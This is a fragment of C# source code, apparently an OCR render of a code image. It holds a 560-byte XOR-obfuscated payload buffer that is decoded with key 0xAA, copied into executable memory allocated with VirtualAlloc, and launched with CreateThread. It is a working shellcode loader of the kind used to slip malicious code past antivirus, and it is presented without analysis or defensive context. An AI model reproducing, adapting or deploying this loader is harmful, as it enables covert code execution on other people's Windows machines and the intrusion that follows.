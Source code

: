 ```csharp
            byte[] buf = new byte[560] { 0x41, 0x8d, 0xf1, 0xf9, 0xf5, 0x1a, 0xe3, 0x56, 0x04, 0xdf, 0x57, 0xfd, 0xf3, 0xf9, 0xf4, 0x20, 0xac, 0x9a, 0xad, 0xe2, 0x55, 0x6d, 0xe2, 0x55, 0x6c, 0xcc, 0x2b, 0x95, 0x7b, 0x60, 0xde, 0xad, 0x2a, 0x94, 0xe3, 0xdf, 0x40, 0x41, 0x4c, 0x55, 0x4b, 0x42, 0x7e, 0x55, 0x55, 0x55, 0xb9, 0xe3, 0x45, 0xf1, 0x3a, 0x5d, 0x49, 0x51, 0x75, 0xb9, 0xb9, 0xb9, 0xf8, 0xe8, 0xf8, 0xe9, 0xeb, 0xe8, 0xf1, 0x88, 0x6b, 0xef, 0xdc, 0xf1, 0x32, 0xeb, 0xd9, 0xf1, 0x32, 0xeb, 0xa1, 0xf1, 0x32, 0xeb, 0x99, 0xf4, 0x88, 0x70, 0xf1, 0x32, 0xcb, 0xe9, 0xf1, 0xb6, 0x0e, 0xf3, 0xf3, 0xf1, 0x88, 0x79, 0x15, 0x85, 0xd8, 0xc5, 0xbb, 0x95, 0x99, 0xf8, 0x78, 0x70, 0xb4, 0xf8, 0xb8, 0x78, 0x5b, 0x54, 0xeb, 0xf1, 0x32, 0xeb, 0x99, 0x32, 0xfb, 0x85, 0xf1, 0xb8, 0x69, 0xf8, 0xe8, 0xdf, 0x38, 0xc1, 0xa1, 0xb2, 0xbb, 0xb6, 0x3c, 0xcb, 0xb9, 0xb9, 0xb9, 0x32, 0x39, 0x31, 0xb9, 0xb9, 0xb9, 0xf1, 0x3c, 0x79, 0xcd, 0xde, 0xf1, 0xb8, 0x69, 0xe9, 0x32, 0xf1, 0xa1, 0xfd, 0x32, 0xf9, 0x99, 0xf0, 0xb8, 0x69, 0x5a, 0xef, 0xf1, 0x46, 0x70, 0xf4, 0x88, 0x70, 0xf8, 0x32, 0x8d, 0x31, 0xf1, 0xb8, 0x6f, 0xf1, 0x88, 0x79, 0x15, 0xf8, 0x78, 0x70, 0xb4, 0xf8, 0xb8, 0x78, 0x81, 0x59, 0xcc, 0x48, 0xf5, 0xba, 0xf5, 0x9d, 0xb1, 0xfc, 0x80, 0x68, 0xcc, 0x61, 0xe1, 0xfd, 0x32, 0xf9, 0x9d, 0xf0, 0xb8, 0x69, 0xdf, 0xf8, 0x32, 0xb5, 0xf1, 0xfd, 0x32, 0xf9, 0xa5, 0xf0, 0xb8, 0x69, 0xf8, 0x32, 0xbd, 0x31, 0xf1, 0xb8, 0x69, 0xf8, 0xe1, 0xf8, 0xe1, 0xe7, 0xe0, 0xe3, 0xf8, 0xe1, 0xf8, 0xe0, 0xf8, 0xe3, 0xf1, 0x3a, 0x55, 0x99, 0xf8, 0xeb, 0x46, 0x59, 0xe1, 0xf8, 0xe0, 0xe3, 0xf1, 0x32, 0xab, 0x50, 0xf2, 0x46, 0x46, 0x46, 0xe4, 0xf0, 0x07, 0xce, 0xca, 0x8b, 0xe6, 0x8a, 0x8b, 0xb9, 0xb9, 0xf8, 0xef, 0xf0, 0x30, 0x5f, 0xf1, 0x38, 0x55, 0x19, 0xb8, 0xb9, 0xb9, 0xf0, 0x30, 0x5c, 0xf0, 0x05, 0xbb, 0xb9, 0xb4, 0xbc, 0x79, 0x11, 0xb8, 0x9d, 0xf8, 0xed, 0xf0, 0x30, 0x5d, 0xf5, 0x30, 0x48, 0xf8, 0x03, 0xf5, 0xce, 0x9f, 0xbe, 0x46, 0x6c, 0xf5, 0x30, 0x53, 0xd1, 0xb8, 0xb8, 0xb9, 0xb9, 0xe0, 0xf8, 0x03, 0x90, 0x39, 0xd2, 0xb9, 0x46, 0x6c, 0xd3, 0xb3, 0xf8, 0xe7, 0xe9, 0xe9, 0xf4, 0x88, 0x70, 0xf4, 0x88, 0x79, 0xf1, 0x46, 0x79, 0xf1, 0x30, 0x7b, 0xf1, 0x46, 0x79, 0xf1, 0x30, 0x78, 0xf8, 0x03, 0x53, 0xb6, 0x66, 0x59, 0x46, 0x6c, 0xf1, 0x30, 0x7e, 0xd3, 0xa9, 0xf8, 0xe1, 0xf5, 0x30, 0x5b, 0xf1, 0x30, 0x40, 0xf8, 0x03, 0x20, 0x1c, 0xcd, 0xd8, 0x46, 0x6c, 0x3c, 0x79, 0xcd, 0xb3, 0xf0, 0x46, 0x77, 0xcc, 0x5c, 0x51, 0x2a, 0xb9, 0xb9, 0xb9, 0xf1, 0x3a, 0x55, 0xa9, 0xf1, 0x30, 0x5b, 0xf4, 0x88, 0x70, 0xd3, 0xbd, 0xf8, 0xe1, 0xf1, 0x30, 0x40, 0xf8, 0x03, 0xbb, 0x60, 0x71, 0xe6, 0x46, 0x6c, 0x3a, 0x41, 0xb9, 0xc7, 0xec, 0xf1, 0x3a, 0x7d, 0x99, 0xe7, 0x30, 0x4f, 0xd3, 0xf9, 0xf8, 0xe0, 0xd1, 0xb9, 0xa9, 0xb9, 0xb9, 0xf8, 0xe1, 0xf1, 0x30, 0x4b, 0xf1, 0x88, 0x70, 0xf8, 0x03, 0xe1, 0x1d, 0xea, 0x5c, 0x46, 0x6c, 0xf1, 0x30, 0x7a, 0xf0, 0x30, 0x7e, 0xf4, 0x88, 0x70, 0xf0, 0x30, 0x49, 0xf1, 0x30, 0x63, 0xf1, 0x30, 0x40, 0xf8, 0x03, 0xbb, 0x60, 0x71, 0xe6, 0x46, 0x6c, 0x3a, 0x41, 0xb9, 0xc4, 0x91, 0xe1, 0xf8, 0xee, 0xe0, 0xd1, 0xb9, 0xf9, 0xb9, 0xb9, 0xf8, 0xe1, 0xd3, 0xb9, 0xe3, 0xf8, 0x03, 0xb2, 0x96, 0xb6, 0x89, 0x46, 0x6c, 0xee, 0xe0, 0xf8, 0x03, 0xcc, 0xd7, 0xf4, 0xd8, 0x46, 0x6c, 0xf0, 0x46, 0x77, 0x50, 0x85, 0x46, 0x46, 0x46, 0xf1, 0xb8, 0x7a, 0xf1, 0x90, 0x7f, 0xf1, 0x3c, 0x4f, 0xcc, 0x0d, 0xf8, 0x46, 0x5e, 0xe1, 0xd3, 0xb9, 0xe0, 0xf0, 0x7e, 0x7b, 0x49, 0x0c, 0x1b, 0xef, 0x46, 0x6c, 0x7b, 0x60 };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
<br>
